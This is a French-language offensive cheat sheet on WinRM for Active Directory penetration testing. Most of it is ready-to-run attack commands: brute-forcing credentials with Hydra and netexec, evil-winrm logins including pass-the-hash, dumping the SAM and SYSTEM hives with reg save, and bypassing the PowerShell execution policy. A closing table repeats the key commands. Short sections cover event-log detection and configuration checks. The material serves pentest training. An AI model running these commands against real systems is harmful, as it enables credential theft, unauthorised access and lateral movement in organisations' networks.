

Ce document détaille les procédures d'énumération et d'exploitation du service **WinRM** (Windows Remote Management), souvent utilisé pour le mouvement latéral dans les environnements Active Directory.



## Détection du Service WinRM

Le service **WinRM** permet l'administration distante via **PowerShell** et **WMI**. Les ports standards sont **5985/TCP** (HTTP) et **5986/TCP** (HTTPS).

### Scanner WinRM avec Nmap
```bash
nmap -p 5985,5986 --script=http-winrm-info target.com
```

### Vérifier si le service WinRM est activé (PowerShell)
```powershell
winrm enumerate winrm/config/listener
```

> [!info]
> Condition critique : L'accès WinRM nécessite souvent d'être membre du groupe 'Remote Management Users' ou 'Administrators'.

## Tester l'Authentification WinRM

### Vérifier si un utilisateur a accès WinRM
```powershell
Test-WSMan -ComputerName target.com
```

### Vérifier les comptes avec accès WinRM
```powershell
Get-PSSessionConfiguration
```

## Bruteforce des Identifiants WinRM

> [!warning]
> Attention : Le bruteforce peut déclencher des alertes de verrouillage de compte (Account Lockout Policy).

### Bruteforce avec Hydra
```bash
hydra -L users.txt -P passwords.txt target.com -s 5985 http-post-form "/wsman:username=^USER^&password=^PASS^" -V
```

### Bruteforce avec netexec
```bash
netexec winrm target.com -u users.txt -p passwords.txt
```

## Connexion à WinRM

### Connexion avec evil-winrm
```bash
evil-winrm -i target.com -u Administrator -p 'Password123!'
```

### Connexion avec netexec
```bash
netexec winrm target.com -u Administrator -p 'Password123!' --exec 'whoami'
```

## Vérifier les Permissions WinRM

### Vérifier les utilisateurs avec accès
```powershell
Get-PSSessionConfiguration | fl Name,PSVersion,StartupScript,Permission
```

### Vérifier la configuration du service
```powershell
winrm get winrm/config/service
```

## Pass-the-Hash via WinRM

Le protocole WinRM supporte l'authentification NTLM, permettant l'utilisation de hashs pour s'authentifier sans connaître le mot de passe en clair. Cette technique est documentée dans les **Lateral Movement Techniques**.

```bash
evil-winrm -i target.com -u Administrator -H <LM:NTLM_HASH>
```

## Configuration de WinRM via GPO

L'énumération de la configuration WinRM permet de comprendre la posture de sécurité. Les paramètres sont souvent poussés via GPO.

```powershell
# Vérifier si le chiffrement est forcé
winrm get winrm/config/service | Select-String "AllowUnencrypted"

# Vérifier les hôtes autorisés (TrustedHosts)
winrm get winrm/config/client | Select-String "TrustedHosts"
```

## Analyse des logs d'événements (Event ID 4624/4625)

L'analyse des logs est cruciale pour détecter les tentatives d'accès. Voir **Active Directory Enumeration** pour corréler ces événements.

- **Event ID 4624** : Connexion réussie. Rechercher le *Logon Type 3* (Network) ou *Logon Type 10* (Remote Interactive).
- **Event ID 4625** : Échec de connexion. Utile pour identifier les tentatives de bruteforce.

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624} | Where-Object {$_.Properties[8].Value -eq 3}
```

## Utilisation de certificats pour l'authentification WinRM

WinRM peut être configuré pour exiger une authentification par certificat (souvent sur le port 5986).

```bash
# Connexion avec certificat client
evil-winrm -i target.com -S -c cert.pem -k key.pem
```

## Exécution de Commandes et Escalade de Privilèges

### Exécuter une commande basique via WinRM
```bash
evil-winrm -i target.com -u Administrator -p 'Password123!' -c 'whoami /priv'
```

### Lister les utilisateurs du système
```powershell
Get-LocalUser
```

### Extraction de secrets (Credential Dumping)
> [!danger]
> Danger : L'utilisation de 'reg save' nécessite des privilèges SYSTEM/Administrateur et peut être détectée par les EDR. Voir **Credential Dumping**.

```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

## Détection et Contournement de Restrictions

> [!tip]
> Tip : Toujours vérifier la politique d'exécution PowerShell avant de tenter l'injection de scripts complexes. Voir **PowerShell Security**.

### Vérifier les restrictions appliquées
```powershell
Get-ExecutionPolicy
```

### Contourner les restrictions d'exécution
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
```

## Tableau récapitulatif des commandes

| Étape | Commande |
| :--- | :--- |
| Scanner WinRM | `nmap -p 5985,5986 --script=http-winrm-info target.com` |
| Vérifier si WinRM est actif | `Test-WSMan -ComputerName target.com` |
| Lister les comptes autorisés | `Get-PSSessionConfiguration` |
| Bruteforce des identifiants | `hydra -L users.txt -P passwords.txt target.com -s 5985 http-post-form "/wsman:username=^USER^&password=^PASS^"` |
| Connexion avec evil-winrm | `evil-winrm -i target.com -u Administrator -p 'Password123!'` |
| Exécuter une commande à distance | `netexec winrm target.com -u Administrator -p 'Password123!' --exec 'whoami'` |
| Vérifier les privilèges | `whoami /priv` |
| Contourner les restrictions PowerShell | `Set-ExecutionPolicy Bypass -Scope Process -Force` |

Les techniques présentées ici s'inscrivent dans les phases d'énumération et de mouvement latéral, souvent liées à l'**Active Directory Enumeration**, au **Credential Dumping** et aux **Lateral Movement Techniques**.